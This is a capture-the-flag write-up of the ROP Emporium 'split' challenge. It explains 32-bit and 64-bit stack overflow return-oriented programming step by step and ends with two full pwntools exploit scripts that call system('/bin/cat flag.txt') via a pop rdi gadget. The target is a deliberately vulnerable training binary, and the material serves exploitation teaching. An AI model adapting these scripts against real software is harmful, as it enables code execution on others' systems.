


ROP Emporium - split
Basic setup:
- ROPEmporium x86 & x86_64 binaries
- Ubuntu lab machine
- GDB & pwndbg
- pwntools
Link to challenge
https://ropemporium.com/challenge/split.html
The 32 bit solve
This challenge is a bit more complicated where instead of the command calling system and executing /bin/cat flag.txt in the same function, these are split up and ROP gadgets are needed.
Similar to the previous challenge, we can see that DEP/NX is enabled meaing that we cannot execute shellcode on the stack. We also see that partial RELRO is enabled which means that the the Global Offset Table (GOT) is read only. This means that we cannot overwrite any GOT entries.
Using the command provided by radare2, rabin2 -z split32, we can see the strings in the binary. /bin/cat flag.txt is seen again as well as the /bin/ls command.

Using -i we can see the imported functions. System is seen again which we will use to exploit this binary.
Using Ghidra we can see the main, pwnme and usefulFunction functions disassembled. This explains a lot about functionality but most importantly, it shows the binary trying to fit 0x60 worth of input into a 0x20 buffer. This means that we can overflow the buffer and overwrite the return address.
We can now start to develop our exploit. For this we will need the address of the system function. We can see this above as 0x080483e0. We can use this address or we can also use the address seen on the left for the entire line call system - 0x0804861a. By using system we will need to provide a 4 byte junk return address between system and the address of /bin/cat flag.txt to impersonate functionality of the call instruction and so the binary knows what to do after executing system. We will use the call system address for simplicity.
Next we need to grab the address of the string set which contains “/bin/cat flag.txt”. To do this within pwndbg, we need to first run the program with a breakpoint set.
We can then search for the string which provides us with the address.

The last thing to do before creating our payload is to find the offset for the buffer overflow. The command cyclic 100 is used again finding the EIP value and finding the offset of 44 by using cyclic -l laaa.
Finally, we can use python2 to create our payload and piping it to the binary to get the flag.
The 64 bit solve
The 64 bit architecture handles arguments for system calls differently to 32 bit so our exploit will look slightly different.
32 bit: 
32 bit architecture can simply just take arguments from the stack and this is why a ROP chain of 2 links was used in the 32 bit solve. Link 1 for the system call and link 2 for the address of the string.
64bit: 
However, 64 bit architecture requires the arguments to be passed in the registers seen above. This means that we need to use a ROP chain of 3 links as we need to pass an instruction which populates the RDI register before calling system. A commonly used gadget pop rdi; ret can be used to populate the RDI register as it will pop the value off the stack and store it in the RDI register.
Firstly, we find the offset of the buffer overflow using the cyclic command as seen before.
By taking the first 8 bytes of the RSP register, we can see that the offset is 40.
Again we take the address for system on the left and write it down for later use.

We need then to find the 64 bit address of the “/bin/cat flag.txt” string which we can do by searching within pwndbg using the same command as before.
Lastly, we need to find our rop gadget which can populate the RDI register with the “/bin/cat flag.txt” string for our system call. We can use the command ROPgadget –binary split64 –ropchain to list all the gadgets available and by using a simple grep, we find our pop rdi ; ret gadget address which we can note down.
ROPgadget was installed using sudo apt install python3-ropgadget.
Before we build the payload, we need to understand the order of the ROP chain. The order is as follows:
- The first 40 bytes of the payload is the offset of the buffer overflow.
- The next few bytes is the address of the pop rdi ; ret gadget.
- The next few bytes are the address of the “/bin/cat flag.txt” string.
- Lastly is the address of the system function.
This is the order as the pop rdi ; ret gadget first needs to pop the address of the “/bin/cat flag.txt” string off the stack and store it in the RDI register. The string value comes next as this is what is popped. Lastly, the system function is appended as it will be called using the RDI register as the argument.
A final payload can then be created using python2 in little endian and by padding with null bytes to fit the 64 bit architecture. Piping this to the binary will give us the flag.
Scripts
Provided are the two scripts used to solve this challenge. These are inspired by CryptoCat’s youtube tutorial and edited for my own understanding. Furthermore, these scripts will be used as a template for the remaining ROPEmporium challenges.
32 bit
from pwn import *
##### SETUP & RUN #####
#Define the executable
exe = './split32'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# verbose logging so we can see what is being sent
context.log_level = 'info'
#delete corefiles after crash occurs
context.delete_corefiles = True
# run the elf
io = process()
##### FIND USEFUL ADDRESSES #####
# Locate the functions/strings we need - either do this manually or using pwntools
system_addr = elf.symbols['system']
bincat_addr = next(elf.search(b'/bin/cat'))
junk_addr = 0x61616161 # junk address needed to impersonate as call system
# can do it this way also - using "call system" instead of "system"
#bincat_addr = 0x0804a030 <- bincat same as above
#callsystem_addr = 0x0804861a <- call system addr different to above
# Print out the target address
info("%#x system", system_addr)
info("%#x /bin/cat", bincat_addr)
##### FIND CRASH OVERWRITE RETURN ADDRESS OFFSET #####
# We will send a 'cyclic' pattern which overwrites the return address on the stack
payload = cyclic(100)
# Send cyclic pattern to crash it
io.sendlineafter('> ', payload)
# Wait for the process to crash
io.wait()
# Open up the corefile created after crash
core = io.corefile
# Print out the address of EIP at the time of crashing
eip_value = core.eip
eip_offset = cyclic_find(eip_value)
info('located EIP offset at {a}'.format(a=eip_offset))
##### CRAFTING PAYLOAD #####
# Craft a new payload which puts system('/bin/cat flag.txt') at correct offset
# fit works below by making it aaa + addr1 + addr2 + addr3 and converts hex to ascii where appropriate
payload = fit({eip_offset: [system_addr, junk_addr, bincat_addr]})
# alternative way - p32 converts 0x90 to \x90
# payload = b""
# payload += b'A' * eip_offset
# payload += p32(system_addr)
# payload += p32(junk_addr)
# payload += p32(bincat_addr)
# print(payload)
##### SEND PAYLOAD AND GET FLAG #####
io = process()
io.sendlineafter('>', payload)
io.recvuntil('Thank you!\n')
#Get our flag!
flag = io.recv()
success(flag)
##### END #####
64 bit
from pwn import *
##### SETUP & RUN #####
#Define the executable
exe = './split'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# verbose logging so we can see what is being sent
context.log_level = 'info'
#delete corefiles after crash occurs
context.delete_corefiles = True
# run the elf
io = process()
##### FIND USEFUL ADDRESSES #####
# Locate the functions/strings we need - either do this manually or using pwntools
pop_rdi_gadget = 0x00000000004007c3
bincat_addr = 0x0000000000601060
system_addr = 0x000000000040074b
# can do it this way also - using "call system" instead of "system"
#bincat_addr = 0x0000000000601060 <- bincat same as above
#callsystem_addr = 0x000000000040074b <- call system addr different to above
#ropgadget = 0x00000000004007c3 <- needed for 64 bit architecture as arguments for system
# are called from rdi so we need to pop from the stack and store into rdi so "pop rdi ; ret" gadget is used
# Print out the target address
info("%#x pop rdi; ret;", pop_rdi_gadget)
info("%#x /bin/cat", bincat_addr)
info("%#x system", system_addr)
##### FIND CRASH OVERWRITE RETURN ADDRESS OFFSET #####
# We will send a 'cyclic' pattern which overwrites the return address on the stack
payload = cyclic(100)
# Send cyclic pattern to crash it
io.sendlineafter('> ', payload)
# Wait for the process to crash
io.wait()
# Open up the corefile created after crash
core = io.corefile
stack = core.rsp
info("%#x stack", stack)
# Read four bytes from RSP, which will be some of our cyclic data.
# With this snippet of the pattern, we know the exact offset from
# the beginning of our controlled data to the return address.
pattern = core.read(stack, 4)
# read first 4
offset = cyclic_find(pattern)
info("%r pattern (offset: %r)", pattern, offset)
##### CRAFTING PAYLOAD #####
# Craft a new payload which puts system('/bin/cat flag.txt') at correct offset
# Note that we have to call pop_rdi gadget here
payload = b""
payload += b'A' * offset
payload += p64(pop_rdi_gadget)
payload += p64(bincat_addr)
payload += p64(system_addr)
print(payload)
##### SEND PAYLOAD AND GET FLAG #####
io = process()
io.sendlineafter('>', payload)
io.recvuntil('Thank you!\n')
#Get our flag!
flag = io.recv()
success(flag)
##### END #####